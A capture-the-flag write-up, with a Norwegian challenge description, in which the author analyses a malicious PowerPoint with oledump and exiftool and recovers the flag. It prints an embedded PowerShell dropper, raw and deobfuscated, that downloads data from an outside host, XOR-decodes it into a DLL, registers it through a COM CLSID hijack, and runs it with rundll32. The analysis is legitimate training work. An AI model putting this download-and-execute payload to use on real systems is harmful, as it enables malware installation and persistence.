


# Present Me Plz (500)

Maldocs bruker som regel exploits eller makroer for å kjøre kode. Dette maldocet bruker en teknisk sett en exploit.

Maldocs har som regel som oppgave å laste ned noe. Ofte videre kode. Dette maldocet forsøker også noe nedlasting.

Zipfilen kan åpnes med passord: "helsectf"

[PresentMePlz.zip](PresentMePlz.zip)

# Writeup

Using olemeta I see the thumbnail is full of garbage. Googling "ppt thumbnail exploits" shows that that is actually a thing. So next step is to extract the thumbnail using exiftool I can do this:

```
exiftool -b -ThumbnailClip PresentMePlz.ppt > thumbnail
```

`file` shows me that this is: `thumbnail: DOS executable (block device driver \211M,32-bit sector-support)`

Seems to be a red herring. Going more with ole tools, using oledump here I see parts of the document. I start by dumping the 5th. And in the dump I see some text at the end.

```
$ python oledump/oledump.py PresentMePlz.ppt               
  1:      4096 '\x05DocumentSummaryInformation'
  2:     43668 '\x05SummaryInformation'
  3:        32 'Current User'
  4:     29752 'Pictures'
  5:     37607 'PowerPoint Document'
```



Copying that data manually out and removing the `^@` leaves me with this:

```powershell
  .vbs:..\..\..\..\..\..\..\..\windows/System32::$index_allocation/SyncA^ppvPublishingServer.vbs" ;$I=$env:Temp+'\local.lnk';if([IO.File]^::Exists($I)){break;    };[IO.File]::Create($I,1,[io.FileOPtions^]::DeleteOnClose);$r=$ENV:ALLUSERSPROFILE+'\lmapi2.dll';if([IO.F^ile]::Exists($r)){break;    };$l=[Convert]::ToChar(0x2F);$lI='ht^tps:%5C%5Chelsectf2023-6ac4e1c6d8855c1bd96a-358bea1cc922.chals.i^o'+$l+'DSC0002.jpeg';$f=(New-Object Net.WebClient).DownloadData(^$lI);if($f.Count -lt 10000){break;};$f=$f[2..$f.Count];$x=24;$f=^$f|%{    $x=(29*$x+49)% 256;    $_=($_ -bxor $x);    $_    };if(^$DetteVarEtEkteMaldoc){[IO.File]::WriteAllBytes($r,$f);$k=[Conve^rt]::ToChar(0x23);$z=$l+'c reg ADD HKCU\Software\Classes\CLSID\{^2735412E-7F64-5B0F-8F00-5D77AFBE261E}\InProcServer32 '+$l+'t REG^_SZ '+$l+'d '+$r+' '+$l+'ve '+$l+'f '+ $l+'reg:64'+' && '+'rundl^l32.exe '+$r+','+$k+'1';cmd $z;}else{break;};
```

Cleanup

```powershell
$I=$env:Temp+'\local.lnk';
if([IO.File]::Exists($I)){break;};
[IO.File]::Create($I,1,[io.FileOPtions]::DeleteOnClose);
$r=$ENV:ALLUSERSPROFILE+'\lmapi2.dll';
if([IO.File]::Exists($r)){break;};
$l=[Convert]::ToChar(0x2F);
$lI='https:%5C%5Chelsectf2023-6ac4e1c6d8855c1bd96a-358bea1cc922.chals.io'+$l+'DSC0002.jpeg';
$f=(New-Object Net.WebClient).DownloadData($lI);
if($f.Count -lt 10000){break;};
$f=$f[2..$f.Count];
$x=24;
$f=$f|%{$x=(29*$x+49)% 256;
$_=($_ -bxor $x); $_ };
if($DetteVarEtEkteMaldoc){
    [IO.File]::WriteAllBytes($r,$f);
    $k=[Convert]::ToChar(0x23);
    $z=$l+'c reg ADD HKCU\Software\Classes\CLSID\{2735412E-7F64-5B0F-8F00-5D77AFBE261E}\InProcServer32 '+$l+'t REG_SZ '+$l+'d '+$r+' '+$l+'ve '+$l+'f '+ $l+'reg:64'+' && '+'rundll32.exe '+$r+','+$k+'1';cmd $z;
}
else{break;};
```
Got this URL from that:

`https://helsectf2023-6ac4e1c6d8855c1bd96a-358bea1cc922.chals.io/DSC0002.jpeg`

Visiting that URL I get a message asking how I got `Chrome` from the PowerPoint. So I guess I have to fake my user agant? Not sure what agent `PowerPoint` will be using, i tried just the word `PowerPoint`. Had to make a request to my own webserver using PowerShell to check. But all I got was `-` and that did not work. After a while I got a tip to remove the header. And I was fooled by Nginx's filler data when no header is available. Next time I should use a netcat server to see all headers.

And we got a file, now I just need to do the same operations as the powershell above does. I made [solve.py](solve.py) to do this for me. While testing I saw the `PNG` header in the bytes so I just wrote all the data to a `flag.png` file and bingo!




# Flag

```
helsectf{https://tinyurl.com/2c6tkzfa}
```